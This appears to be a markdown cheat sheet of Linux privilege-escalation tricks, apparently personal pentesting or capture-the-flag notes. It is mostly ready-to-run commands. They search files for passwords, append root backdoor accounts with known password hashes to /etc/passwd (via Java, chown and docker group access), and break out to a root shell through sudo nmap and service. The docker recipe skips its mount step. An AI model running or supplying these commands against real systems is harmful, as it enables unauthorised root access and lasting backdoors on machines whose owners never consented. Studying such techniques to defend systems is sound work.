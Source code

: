 ## Enum
### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

### Find credentials
```
grep -lRi "password" ./etc 2>/dev/null | sort | uniq > files.txt
for p in $(cat files.txt); do grep password $p; done
```

## Linux Root tricks
Tricks to play after running `sudo -l`
https://gtfobins.github.io/

### Java
```
var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/etc/passwd",true);
fw.write("hack:$1$-hack$cP2Gt085ove2RDgBPWMR2/:0:0:root:/root:/bin/bash");
fw.close();
```

### Change passwd file
```
hack:$1$-hack$cP2Gt085ove2RDgBPWMR2/:0:0:root:/root:/bin/bash
su hack
Password: pass123
```

### Chown
```
sudo chown asterisk:asterisk /etc/passwd
echo "flame:sa/zAjIC0QWtk:0:0::/root/:/bin/bash" >> /etc/passwd
su - flame
Password: flamen
```

### nmap
```
sudo nmap --interactive
!sh
```

### service
```
sudo /sbin/service ../../../bin/bash
```

## Some common exploit

### Disk Group
```
mount
debugfs /dev/sda1
```

### Docker Group
How to spot
```
lse check user in docker group
```
Exploit
```
docker images
cd /
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
su toor
password
```

### Check sudo
```
sudo -l
```

### no-root-squash nfs
https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe

